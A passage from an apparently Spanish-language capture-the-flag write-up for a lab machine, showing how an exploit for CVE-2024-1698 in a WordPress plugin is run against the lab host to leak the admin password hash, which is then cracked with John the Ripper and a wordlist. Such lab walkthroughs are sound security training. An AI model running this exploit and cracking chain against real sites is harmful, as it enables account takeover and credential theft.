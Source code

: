 Veamos de qué forma se usa el Exploit:
```bash
python3 notificationx_Exploit.py
usage: notificationx_Exploit.py [-h] --url URL [--sleep-time SLEEP_TIME] [--debug]
notificationx_Exploit.py: error: the following arguments are required: --url
```
Solamente debemos darle la URL de la página web vulnerable. 

Podríamos darle la flag `--debug` y el `--sleep-time` para que nos vaya mostrando cada carácter encontrado, aunque no es necesario.

Vamos a ejecutarlo:
```bash
python3 notificationx_Exploit.py --url http://debugsec.thl
[+] The WordPress instance seems to be vulnerable to CVE-2024-1698.
[*] WordPress admin password hash: $P$BeoVY5FZYWg4j90BEh5Cme9j3Zamqx/
```
Tenemos el hash, así que guárdalo en un archivo.

Ahora con **JohnTheRipper** lo crackeamos: 
```bash
john -w:/usr/share/wordlists/rockyou.txt adminHash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 SSE2 4x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
******         (?)     
1g 0:00:00:14 DONE (2025-07-22 12:18) 0.07102g/s 21313p/s 21313c/s 21313C/s memee..may1889
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed.
```
Genial, tenemos la contraseña del administrador o, en este caso, del **usuario wordpress**.

Probémosla:

<p align="center">
<img src="/assets/images/THL-writeup-debugsec/Captura6.png">
</p>
